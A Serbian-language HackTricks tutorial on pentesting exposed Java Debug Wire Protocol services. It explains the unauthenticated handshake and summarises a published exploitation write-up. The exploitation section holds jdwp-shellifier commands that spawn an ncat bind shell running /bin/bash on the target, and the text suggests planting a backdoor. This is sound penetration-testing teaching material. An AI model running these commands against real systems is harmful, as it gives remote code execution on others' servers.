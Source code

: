 # Pentesting JDWP - Java Debug Wire Protocol

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Eksploatacija

Eksploatacija JDWP-a se oslanja na **nedostatak autentifikacije i enkripcije protokola**. Obično se nalazi na **portu 8000**, ali mogući su i drugi portovi. Inicijalna veza se uspostavlja slanjem "JDWP-Handshake" na ciljni port. Ako je JDWP servis aktivan, odgovara istim stringom, potvrđujući svoje prisustvo. Ovaj handshake se koristi kao metoda za identifikaciju JDWP servisa u mreži.

Što se tiče identifikacije procesa, pretraga stringa "jdwk" u Java procesima može ukazivati na aktivnu JDWP sesiju.

Preporučeni alat je [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier). Možete ga koristiti sa različitim parametrima:

```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```

Pronašao sam da korišćenje `--break-on 'java.lang.String.indexOf'` čini eksploataciju više **stabilnom**. Ako imate mogućnost da otpremite zadnja vrata na host i izvršite ih umesto izvršavanja komande, eksploatacija će biti još stabilnija.

## Više detalja

**Ovo je sažetak** [**https://ioactive.com/hacking-java-debug-wire-protocol-or-how/**](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/). Pogledajte ga za dalje detalje.

1. **JDWP pregled**:

* To je mrežni binarni protokol zasnovan na paketima, uglavnom sinhroni.
* Nedostatak autentifikacije i enkripcije čini ga ranjivim kada je izložen neprijateljskim mrežama.

2. **JDWP rukovanje**:

* Koristi se jednostavan proces rukovanja za pokretanje komunikacije. Između debagera (klijenta) i debugera (servera) razmenjuje se ASCII niska od 14 karaktera "JDWP-Handshake".

3. **JDWP komunikacija**:

* Poruke imaju jednostavnu strukturu sa poljima kao što su Dužina, Id, Zastava i SkupKomandi.
* Vrednosti SkupKomandi se kreću od 0x40 do 0x80, predstavljajući različite akcije i događaje.

4. **Eksploatacija**:

* JDWP omogućava učitavanje i pozivanje proizvoljnih klasa i bajtkoda, što predstavlja sigurnosne rizike.
* Članak detaljno opisuje proces eksploatacije u pet koraka, uključujući dobijanje referenci Java Runtime-a, postavljanje prekidača i pozivanje metoda.

5. **Eksploatacija u stvarnom životu**:

* Uprkos potencijalnoj zaštiti od firewall-a, JDWP usluge su otkrivene i eksploatisane u stvarnim scenarijima, kao što je prikazano pretragama na platformama poput ShodanHQ i GitHub-a.
* Skripta za eksploataciju je testirana na različitim verzijama JDK-a i nezavisna je od platforme, pružajući pouzdanu izvršnu kontrolu na daljinu (RCE).

6. **Sigurnosne implikacije**:

* Prisustvo otvorenih JDWP usluga na internetu naglašava potrebu za redovnim sigurnosnim pregledima, onemogućavanjem debug funkcionalnosti u produkciji i pravilnom konfiguracijom firewall-a.

### **Reference:**

* \[[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)]
* [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
* [http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html](http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html)
* http://www.secdev.org/projects/scapy(no longer active)
* [http://www.shodanhq.com/search?q=JDWP-HANDSHAKE](http://www.shodanhq.com/search?q=JDWP-HANDSHAKE)
* http://www.hsc-news.com/archives/2013/000109.html (no longer active)
* [http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt](http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt)
* https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults
* [http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html](http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html](http://docs.oracle.com)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html](http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html)
* [http://nmap.org/nsedoc/scripts/jdwp-exec.html](http://nmap.org/nsedoc/scripts/jdwp-exec.html)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Pogledajte [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
